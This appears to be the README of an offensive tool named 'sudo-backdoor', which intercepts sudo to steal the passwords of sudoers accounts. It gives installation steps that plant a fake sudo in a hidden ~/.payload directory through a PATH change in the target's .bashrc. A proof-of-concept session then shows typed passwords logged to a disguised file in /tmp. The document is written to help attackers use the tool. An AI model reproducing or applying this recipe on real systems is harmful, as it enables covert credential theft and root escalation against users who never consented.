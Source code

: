 # sudo-backdoor
Wraps around `sudo` and logs user:password entries, for those annoying times when you get a shell on a sudoers account without knowing their password.

## Installation
Append the following line to the target user's `.bashrc` (or their appropriate shell's rc file) by running the following command:

`$ echo "export PATH=~/.payload:$PATH" >> ~/.bashrc`

Then, create `~/.payload/sudo` and paste the code found in `sudo.sh` in there.

*Don't forget to make the bash script executable by issuing the following command:*

`$ chmod a+x ~/.payload/sudo`

Obviously you might have to adapt this installation recipe to fit the user's shell. If they are using zsh, then install to ~/.zshrc, etc.


## Example
Proof of concept: `foobar` is the target with password `foobarz1`
```
[foobar:~]$ tail -n 1 ~/.bashrc
export PATH=~/.payload:$PATH
[foobar:~]$ ls -la ~/.payload/sudo 
-rwxr-xr-x 1 foobar foobar 420 Aug 16 01:21 /home/foobar/.payload/sudo
[foobar:~]$ sudo id
[sudo] password for foobar: # A wrong password is inserted here
Sorry, try again.
[sudo] password for foobar: # The correct password is inserted here
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
[foobar:~]$ cat /tmp/.ICE-unix-test 
foobar:barbaz:invalid
foobar:foobarz1:valid
[foobar:~]$ sudo id # System remembers previous authentification
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log)
```
